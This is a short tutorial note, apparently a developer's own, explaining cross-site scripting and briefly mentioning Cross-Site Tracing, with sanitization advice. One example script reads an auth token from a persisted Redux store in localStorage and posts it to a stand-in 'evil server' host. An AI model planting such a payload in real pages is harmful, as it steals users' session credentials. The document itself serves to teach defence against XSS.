 # XSS

Cross site scripting (XSS) is an attack where one runs a script (typically
JavaScript) in another user's browser. This can happen if user inputs are not
correctly sanitized and then displayed back to users.

XSS can be used for

- stealing stored data in browser local storage
- steal cookies (unless they are server-side read-only)
- modify DOM and trigger DOM events
- send requests (especially dangerous if cookie-based authentication is used)

For example, assume we have a social media site wheres user can post comments.
The comments are rendered server side using a template language (although it is
as much of a vulnerability for client-side rendering)

```html
<div>
  <p>{comment}</p>
</div>
```

A malicious user posts the following comment

```html
<script>
  alert("XSS");
</script>
```

When any user attempt to see this comment, the HTML renders as below which
executes the malicious script.

```html
<div>
  <p>
    <script>
      alert("XSS");
    </script>
  </p>
</div>
```

## Accessing Local Storage

Here is a vulnerability from an app I was working. This attack could grab a
token in persisted Redux store and send it to an evil server.

```html
<script>
  {
    const root = window.localStorage["persist:root"];
    const auth = JSON.parse(root).auth;

    const url = "my.evil.server:5001";
    window.fetch(url, { method: "POST", body: auth });
  }
</script>
```

## Countermeasures

The best protection against XSS is to make sure all user input is sanitized and
that no vulnerable data is stored in local storage or browser readable cookies.

## XST

There is something called Cross-Site Tracing (XST) where one uses a HTTP Track
request to bypass the `httpOnly` attribute in a cookie. To protect against XST,
make sure Track requests are disabled (especially from JavaScript).
